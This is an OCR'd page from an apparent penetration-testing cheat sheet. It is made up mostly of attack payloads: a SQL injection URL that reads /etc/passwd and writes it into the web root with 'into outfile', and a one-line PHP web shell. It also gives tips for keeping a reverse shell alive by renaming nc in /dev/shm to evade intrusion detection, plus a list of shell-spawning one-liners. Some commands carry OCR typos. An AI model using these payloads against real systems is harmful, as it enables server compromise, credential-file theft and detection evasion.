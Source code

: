 2. Use into outfile to write a content in it.
```
http://x.x.x.x/test.php?id=-1 union select 1,lod_file('/etc/passwd'),3,4,5 into outfile ‘/var/
www/html/test.txt’
```
After that visit http://x.x.x.x/test.txt

Also check default 000-default.conf which is under /etc/apache2/sites-enabled/000-dafeult-conf

also one can achieve a web shell by injection a php file:
```
<?php system($_REQUEST["exec"]);?>
```



## LFI to RCE
https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-canlead-to-severe-RCE-vulnerabilities.html
https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/ 

## Reverse Connection Issues
1. If reverse shell dies instantly use following command to check if any sort of intrusion system is present on the box.

find /home -ctime -60 # It will giv all files modified in last 60 minutes on box

In such scenario cp /bin/nc to /dev/shm/newname - rewrite nc to newfile name and try to execute the nc command again.


2. Try listening on port 80 or 443.



## Spawn TTY
1. python3 -c 'import pty; pty.spawn("/bin/sh")'
2. echo os.system('/bin/bash')
3. /bin/sh -i
4. perl —e 'exec "/bin/sh";'
5. ruby: exec "/bin/sh"
6. lua: os.execute('/bin/sh')
7. (From within IRB)
exec "/bin/sh"
8. (From within vi)
:!bash
9. (From within vi)
:set shell=/bin/bash:shell
10. (From within nmap)
!sh
